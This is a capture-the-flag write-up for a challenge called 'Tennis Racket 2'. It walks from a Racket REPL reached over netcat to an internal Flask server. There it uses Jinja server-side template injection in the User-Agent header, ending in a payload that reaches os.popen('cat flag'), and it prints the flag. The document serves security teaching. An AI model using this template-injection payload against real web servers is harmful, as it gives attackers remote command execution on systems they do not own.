

# Tennis Racket 2
## Challenge Description
I just found out my CS Prof is going to be teaching us Python next semester!
Lets see if I can find anything useful for next semester on his computer too...

## Files
`Program` is the challenge host files and `sol.rkt` is the solution to the challenge

## Solution
When you connect to the netcat server, you instantly get dropped into a Racket REPL:



By reading the flag file using the below Racket code,

```racket
#lang racket
(for ([line (file->lines "file.txt")])
  (displayln line))
```

you will get back the flag file content:

```
TODO List:
1. Grade Racket Assignments
2. Test out new website at http://tennisracket2-grade-bot:5000
3. Chase students for tuition fee
4. Mend my broken relationship with my daughter
```

From the above TODO list, there is a URL to a web server, sending a simple GET request to this webserver using Racket will yield the following result:

```racket
> (require net/http-easy)
  (define res (get "http://tennisracket2-grade-bot:5000"))
  (println (response-body res))

#"\n    \n    <h1>Hi! Grade-bot is still a work-in-progress.</h1>\n    <p>Here is some debug information:</p>\n    \n    net/http-easy (unix; racket[CS] 8.4; 0.3.5)\n    \n    "
```

Its a HTML page that also returns some debug information that looks like a User Agent. Since there is no acompanying Javascript on this page, the User Agent has to be injected into the page via the server.

By checking the response headers of the request, we learn that the web server is actually a python server, possibly Flask or Django?

```racket
> (println (response-headers res))

'(#"Server: Werkzeug/2.1.2 Python/3.9.12" #"Date: Sun, 08 May 2022 16:21:16 GMT" #"Content-Type: text/html; charset=utf-8" #"Content-Length: 167" #"Connection: close")
```

We can then test to see if a Jinja Templating Injection is possible by sending the following data as a User Agent in the request:

```racket
(define res (get "http://tennisracket2-grade-bot:5000" #:user-agent "{{ 7 + 13 }}"))
(println (response-body res))
```

And we get the following result which shows the server executed `7 + 13` and returned `20` as the debug information!

```
#"\n    \n    <h1>Hi! Grade-bot is still a work-in-progress.</h1>\n    <p>Here is some debug information:</p>\n    \n    20\n    \n    "
```

This means we can now execute python code on the server, and Jinja serverside templating injection is possible. Now we can build our payload and once we send the following payload:

```racket
(define res (get "http://tennisracket2-grade-bot:5000" #:user-agent "{{ \"\".__class__.__base__.__subclasses__()[449].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}"))
(println (response-body res))
```

We will get our flag in the response:
```
#"\n    \n    <h1>Hi! Grade-bot is still a work-in-progress.</h1>\n    <p>Here is some debug information:</p>\n    \n    NYP{r5ck3t_fl5sk_sst1}\n    \n    "
```

You can read up more on Serverside Templating Injection in Flask/Jinja [Here](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee).

The flag is `NYP{r5ck3t_fl5sk_sst1}`